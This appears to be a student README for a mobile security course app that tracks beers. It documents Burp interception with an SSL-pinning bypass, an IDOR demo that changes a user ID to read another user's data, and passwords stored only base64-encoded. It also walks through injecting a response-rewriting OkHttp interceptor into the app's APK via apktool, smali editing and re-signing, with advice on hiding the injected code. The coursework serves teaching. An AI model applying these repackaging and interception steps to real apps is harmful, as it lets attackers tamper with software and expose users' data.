# Mobile Security project -  documentation

## Group Members
1. Noah Chang Vandewalle
2. Lancelot Boden
3. Kenzo Haeck
4. Noah Defruyt

## Project summary
Use this app to keep track of what beers you have already drunk in your life with a personal rating given to it

### How To Use  
ZUIPPPEN

## Requirements
### ℹ️ Legend
- :heavy_check_mark: = Implemented
- :x: = Not implemented
- :hourglass: = Work in progress
 
| Status             | Description                         | Details                           |     |
| ------------------ | ----------------------------------- |-----------------------------------| --- |
|                    | **Application**                     |                                   |     |
| :heavy_check_mark: | 2 UI screens                        | Just need to make it pretty       |     |
| :heavy_check_mark: | Secure API request                  |                                   |     |
| :heavy_check_mark: | API request with IDOR               |                                   |     |
| :heavy_check_mark: | Connection to room database         |                                   |     |
| :heavy_check_mark: | Secure storage                      |                                   |     |
|                    |                                     |                                   |     |
|                    | **Security**                        |                                   |     |
| :heavy_check_mark: | Unsafe storage                      |                                   |     |
| :heavy_check_mark: | Malware                             | Look at Readme in group39/malware |     |
| :heavy_check_mark: | Frida functionality                 |                                   |     |
| :heavy_check_mark: | Detect root and block functionality |                                   |     |

# Overview app
Describe the implementation of the following topics.

###  Screenshots
Give screenshots for every screen in the application. Give each screen an unique name.

#### Login Page


#### Register Page


#### Main Screen


#### Profile Page


#### Stack Page


#### Leaderbord


#### Add to Stack


#### Beer details


#### Add own beer


---


##  Secure API request/Intercept & Modify Request (Secure)

### Setup

#### Network

##### Edit Wifi

In your Android device, go to Settings > Network & internet

Click on the modify button

From the Advanced options menu, select Proxy > Manual.



---

#### Burp Certificate

get cacert.der from [http://burp](http://brup) in the burpsuite browser or google it and download from the site

[cacert.der](readme-resources/cacert.der)

##### Set Certificate in Windows

Press Win+R > type `certmgr.msc` > Enter to open Certificate Manager.




##### Set Certificate in Emulator

if command not added to system variables: `cd …\OpenSSL-Win64\bin>` and use `./` before openssl

move the .der to the same folder as openssl if necessary

`openssl x509 -inform DER -in cacert.der -out cacert.pem`

`openssl x509 -inform PEM -subject_hash_old -in cacert.pem`



`Rename-Item cacert.pem 9a5ba575.0` (<HASH_AT_TOP>.0)

`cd \android_sdk\platform-tools`

move the cacert.pem to the same folder as adb if necessary

normally would but it in /system/etc/security/cacertsbut  by default the /system directory is not
writeable.

`mkdir -p /data/adb/modules/playstore/system/etc/security/cacerts/`

`adb push 9a5ba575.0 /data/adb/modules/playstore/system/etc/security/cacerts/9a5ba575.0`

---

#### AlwaysTrustUserCerts Magisk Module

##### If no magisk Installed

Download the latest [**Magisk APK**](https://github.com/topjohnwu/Magisk/releases).

`adb install Magisk-29.apk`

Workarround via Magisk, also bypass ssl pinning:

[AlwaysTrustUserCerts_v1.3.zip](readme-resources/AlwaysTrustUserCerts_v1.3.zip)

`./adb push AlwaysTrustUserCerts_v1.3.zip /sdcard/Download/`

- Open the **Magisk app** inside your emulator.
- Go to the **Modules** tab.
- Tap **Install from Storage** or the **“+”** icon.
- Browse to **/sdcard/Download/AlwaysTrustUserCerts-v1.3.zip** and select it.
- Wait for installation to complete
- Reboot

##### **Install Burp CA as User Certificate**

`./adb push cacert.der /sdcard/Download/`

- Open **settings** on the device
- More Security & Privacy > **Encryption & credentials**
- Tap **Install a certificate**.
- Choose **CA certificate** (not VPN, Wi-Fi, or user).
- Select **“Files”** and browse to **/sdcard/Download/cacert.der**
- If prompted with a warning, confirm or tap **“Install anyway”**.

---

### Intercept & Modify 1st Request (Secure)

There are 2 functionalities preventing the user from doing this intercept & modify. For the demo its disabled temporary to show it works. With the functionalities enabled it would block this ‘exploit’.

#### Blocked Root

If the attacker uses magisk AlwaysTrustUserCerts this will be blocked because super user is needed
See Blocked root code in header "Root"

#### Secure Sockets Layer

Secures the request so its cant be intercepted without the certificate, TLS handshake
See res/xml/network_security_config.xml
and this line in AndroidManifest.xml: android:networkSecurityConfig="@xml/network_security_config"

if burpsuite intercepting on the network get this error:



##### Get The Correct Certificate SHA-256 Hash

Go to the website, click on the lock > connection is secure > certificate is valid
Then in the new window details > export > .crt file



Then for the hash do these commands with openssl:

```powershell
openssl x509 -in koenkoreman-be.pem -pubkey -noout | openssl pkey
-pubin -outform der | openssl dgst -sha256 -binary | openssl enc -
base64
```

Result is this:
> HsbawayQYhB8+cXA6fHLgTgcXsw9vVb8eRIJ2LVfY7E=

##### That's for the old API, for the new own API:



#### The Intercept & Modify Exploit

When pressed the euro or dollar button next to the search bar, the API is (re)fetched and the prices change from currency. When this happens and both SSL/Root block is disabled/bypassed you can intercept the request with burpsuite



when you change the path of the api in the inspector (bottom right corner) from euro to twd (taiwanese dollar ~x36)



The value of each beer logically sky rockets




So the euro conversion rate api request [euro conversion rate](https://cdn.jsdelivr.net/npm/@fawazahmed0/currency-api@latest/v1/currencies/eur.json) is intercepted and modified to the taiwanese dollar conversion rate: [taiwanese dollar conversion rate](https://cdn.jsdelivr.net/npm/@fawazahmed0/currency-api@latest/v1/currencies/twd.json)

####  API request with IDOR

For IDOR we will manipulate the app into thinking we are another user to read out our stack/collection


When logged in as user 5 i have 1 beer in my collection



But if we intercept this request we can change the user ID from 5



To user ID 3



As a result we will see the collectin of user ID 3 instead of 5, even tho the app still thinks we are 5: "Logged in user ID: 5"



API as reference



##  Room database
Type of data stored in the database used in screen x and displayed in screen y.
### Documentation

The application uses a **Room database** to store **local user authentication data**.  
This database is used for the **Login**, **Register**, and **Profile** screens.

---

## Type of data stored

The Room database contains a single table called `users`.

Each record in the table represents one user and contains the following fields:
- `userid` – Integer, primary key, auto-generated
- `userName` – Username of the user
- `userPassword` – Password of the user

This data is stored locally to support **offline usage** and **user persistence**.

---

## Entity – User

The `User` entity defines the structure of the `users` table in the database.

```kotlin
@Entity(tableName = "users")
data class User(
    @PrimaryKey(autoGenerate = true)
    val userid: Int = 0,
    val userName: String,
    val userPassword: String,
)
```

---

## DAO - UserDao

The `UserDao` is responsible for all database operations related to users.

**Implemented functionality**
- Insert a new user
- Update existing user data
- Delete a user
- Retrieve all users
- Retrieve a user by ID
- Authenticate a user (login)
- Check if a username already exists (case-insensitive)

The DAO uses Kotlin Flow so database changes are observed automatically

## Repository pattern

To seperate database logic from UI logic, the **Repository pattern** is used.

**Structure**
- `UsersRepository` defines the available database operations
- `OfflineUsersRepository` implements these operations using Room

This abstraction improves maintainability and testability

## Database configuration

The Room database is configured in `Appdatabase`.

**Details**
- Database name: `app_database`
- Database version: `1`
- Uses a **Signleton pattern** to ensure a single database instance
- `fallbacktoDestructiveMigration()` is enabled for development
## Unsecure storage

The UserDB is unsecure because all the data is encoded in base64 which can easily be decoded and passwords can be easily revealed

##  Secure storage

The type of files we securely store are images, these images are taken and put inside of a repository within the app.
They are fully local and the only thing that gets sent to the API is the path to the image.
Afterwards in the stack, you take the path from the API and get your image

##  Unsecure storage
Type of data stored used in screen x and displayed in screen y.

##  Malware
Implementation of malware.
# Documentation

## Starting

Started off with just an alert popping up that told you to do an atje but this was not really malware.

Then we heard from the teachers that someone changed all the pictures by intercepting the api so we just stole this idea and did this too.

Started off by looking at which things i needed for the api in the app. 

![[image21.png]](readme-resources/image21.png)

In BeerDto.kt you can see what comes out of the api and we need the imageurl

![[image22.png]](readme-resources/image22.png)
In SupabaseBeerApiService.kt you can see it gets everything out of the api in getBeers() and you can see again how the list is made up so at first i thought i needed to write some code to do something with this.

## Writing malware

But then Perplexity gave me the okhttp3 function of intercept

![[image23.png]](readme-resources/image23.png)
So with the help of Perplexity I came up with this code

```kotlin
package com.example.malware  
  
import okhttp3.Interceptor  
import okhttp3.Response  
import okhttp3.ResponseBody.Companion.toResponseBody  
  
class ImageRewriteInterceptor : Interceptor {  
  
    override fun intercept(chain: Interceptor.Chain): Response {  
        val myImageUrl = "https://defruyt.net/noah/Images/Noah.jpg"  
  
        val original = chain.proceed(chain.request())  
        val body = original.body ?: return original  
  
        val bodyStr = body.string()  
  
        val patched = bodyStr.replace(  
            Regex("\"imageurl\"\\s*:\\s*\".*?\""),  
            "\"imageurl\":\"$myImageUrl\""  
        )  
  
        val newBody = patched.toResponseBody(body.contentType())  
        return original.newBuilder()  
            .body(newBody)  
            .build()  
    }  
}
```


Write this inside a new app

The name of the app doesn't really matter if they eventually look inside the apk files the only thing they might find and can find suspicious is the name of the class
![[image24.png]](readme-resources/image24.png)
As you can see the class name is ImageRewriteInterceptor a totally not suspicious name
and you also have to make sure to include
`implementation("com.squareup.okhttp3:okhttp:4.11.0")`
in the build.gradle.kts so that you can actually use the okhttp3 module.
The reason i knew it was the 4.11 version is because i looked in our own app which version we used and copied it into the malware so there is no difference there

![[image25.png]](readme-resources/image25.png)
## Decompile & Recompile

### Getting an APK file for the malware

Now that we have the code it is time to build the malware app and get the apk
I did this using android studio
![[image26.png]](readme-resources/image26.png)
In Build > Generate App Bundle or APKs > Generate APKs
It will build the app and generate an APK inside app/build/outputs/apk/debug/app-debug.apk
![[image27.png]](readme-resources/image27.png)

Now you can use this apk for whatever you want

We needed it to get the smali from our class out of it and copy it inside our legitimate app


### Decompiling the malware
So we needed to decompile the APK file of the malware. I did this using the following command:

`apktool d -f -o .\malware app-debug.apk`

d = decompile

-f = force

-o = output

This makes it so that the apktool decompiles the app-debug.apk and puts all the files inside a folder called malware

Now we can see everything in smali and we need to find where the smali code for our class is

![[image28.png]](readme-resources/image28.png)
After some searching you can find it inside the malware/smali_classes3/com/example/malware/ImageRewriteInterceptor.smali

Need to make sure you can find this file because we will need it now

### Decompiling the original app
For the original app I just used the same code again but now for the beerstack apk file (will be the same name because of android studio)

`apktool d -f -o ./beerstack app-debug.apk`

again decompiling app-debug.apk and putting all its files inside a folder called beerstack

Now here we need to get to the same place as in the malware folder where our own class was created so we need to go to */beerstack/smali_classes3/com/example/beerstack/* If this would not exist just create it so it can be at the same place as the other one
just copy and paste the file from malware to beerstack
![[image29.png]](readme-resources/image29.png)
For us there is also another folder there but that doesn't matter

### Search for the new-instance of okhttpclient$Builder

I did this using perplexity they made this search command for me


```bash
rg "new-instance v[0-9], Lokhttp3/OkHttpClient\$Builder" -n smali* || \
grep -R "Lokhttp3/OkHttpClient\$Builder;-><init>" smali*
```

used kali for this one
![[image30.png]](readme-resources/image30.png)

It was still pretty hard to find the first time making this because you got alot of input and i was first looking at a file called okHttpClient$Builder but thats not the one.
The second time is the screenshot above and that was an updated version of the app that was much easier to find because there was only 1 possible file

you need you need a line inside some smali file that says something like this
![[image31.png]](readme-resources/image31.png)

and some time later
![[image32.png]](readme-resources/image32.png)
But you don't know the number so here it was 0

![[image33.png]](readme-resources/image33.png)

```smali
    # --- your injected code start ---
    new-instance v1, Lcom/example/malware/ImageRewriteInterceptor;
    invoke-direct {v1}, Lcom/example/malware/ImageRewriteInterceptor;-><init>()V

    invoke-virtual {v0, v1}, Lokhttp3/OkHttpClient$Builder;->addInterceptor(Lokhttp3/Interceptor;)Lokhttp3/OkHttpClient$Builder;
    move-result-object v0
    # --- your injected code end ---
```

- We have to make sure that we insert our own code right before the build() option
- Make sure that the number after v is one higher then the new instance from before so in this case 1
- Make sure the paths lead to where we just copied the ImageRewriteInterceptor /Lcom/example/malware/ImageRewriteInterceptor (its still the malware you need to link to)
  You can find where you need to link to inside the ImageRewriteInterceptor.smali file
  ![[image34.png]](readme-resources/image34.png)
  At the top you have a .class public and that one is the one that needs to be in the new instance and invoke direct

And maybe if you really want to do this make sure you don't make it that obvious with the commented injected interceptor lines

## Recompile and sign the apk

First we need to recompile the beerstack folder where we made the changes
using the command:

`apktool b beerstack -o beerstack_patched-unsinged.apk`
![[image35.png]](readme-resources/image35.png)

now we have an apk file again but when we try to install this on the android phone it wont work because the apk is not signed yet thats the next step

using the command:
`keytool -genkeypair -v -keystore mydebug.jks -alias mykey -keyalg RSA -keysize 2048 -validity 10000`

We create a key that we can sign the apk file with

![[image36.png]](readme-resources/image36.png)
![[image37.png]](readme-resources/image37.png)

Now using this just created mydebug.jks keyfile we can sign the apk file using the following command:

`apksigner sign --ks mydebug.jks --ks-key-alias mykey beerstack_patched-unsinged.apk`

![[image38.png]](readme-resources/image38.png)

Now we need to install it on the phone again using adb and test if it works

![[image39.png]](readme-resources/image39.png)

![[image40.png]](readme-resources/image40.png)

After installation it works

---
## Decompile & Recompile
So we needed to decompile the APK file of the malware. I did this using the following command:

`apktool d -f -o .\malware app-debug.apk`

Then i went to the strings.xml file and did

`notepad strings.xml`

i changed the value from:
```
<resources>
    <string name="app_name">BeerStack</string>
    <string name="add_beer">Add Own Beer</string>
    <string name="collection_page">Stack</string>
    <string name="profile_page">Profile</string>
    <string name="home_page">Home</string>
</resources>
```

too:
```
<resources>
    <string name="app_name">Changed Value</string>
    <string name="add_beer">Changed Value</string>
    <string name="collection_page">Changed Value</string>
    <string name="profile_page">Changed Value</string>
    <string name="home_page">Changed Value</string>
</resources>
```
Now i recompiled it:
`apktool b beerstack -o beerstack_patched-unsinged.apk`

we still need to sign it so i made a key:
`keytool -genkeypair -v -keystore mydebug.jks -alias mykey -keyalg RSA -keysize 2048 -validity 10000`

and signed the apk:
`"C:\Users\haeck\AppData\Local\Android\Sdk\build-tools\36.1.0\apksigner.bat" ^ sign --ks mydebug.jks --ks-key-alias mykey2 beerstack_patched-unsinged.apk`

Then i reinstalled the apk:
`adb install beerstack_patched-unsinged.apk`

And now all the strings are edited:
